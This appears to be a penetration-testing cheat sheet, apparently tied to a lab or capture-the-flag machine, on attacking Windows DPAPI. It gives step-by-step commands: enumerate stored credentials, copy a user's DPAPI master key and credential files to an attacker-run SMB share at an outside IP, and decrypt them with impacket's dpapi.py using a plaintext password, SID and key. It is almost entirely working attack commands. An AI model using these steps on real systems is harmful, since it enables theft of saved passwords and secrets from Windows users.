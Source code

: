 # DpApi attack  
DPAPI is Windows' built-in encryption system that protects things like saved passwords and Wi-Fi keys. Attackers don't break the encryption - they steal the keys to decrypt it.

# Verify it 
```language
cmdkey /list
```
# Get the sid
```language
whoami /all
or
impacket-getpac.py
```
# Grab these two files
```language
C:\Users\<user>\AppData\Roaming\Microsoft\Protect

C:\Users\<user>\AppData\Roaming\Microsoft\Credentials
```
# For Example:-
```language
#start a smb server to downk=load the files
sudo impacket-smbserver share ./ -smb2support

#connec the box
net use \\ip\share

#copy the files
copy C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580 \\10.10.14.14\share
copy C:\Users\security\AppData\Roaming\Microsoft\Credentials\51AB168BE4BDB3A603DADE4F8CA81290 \\10.10.14.14\share

# Extract the Master key
python3 /usr/share/doc/python3-impacket/examples/dpapi.py masterkey -file 0792c32e-48a5-4fe3-8b43-d93d64590580 -password '4Cc3ssC0ntr0ller' -sid  S-1-5-21-953262931-566350628-63446256-1001

# Extract the password
python3 /usr/share/doc/python3-impacket/examples/dpapi.py credential -file 51AB168BE4BDB3A603DADE4F8CA81290 -key 0xb360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
```
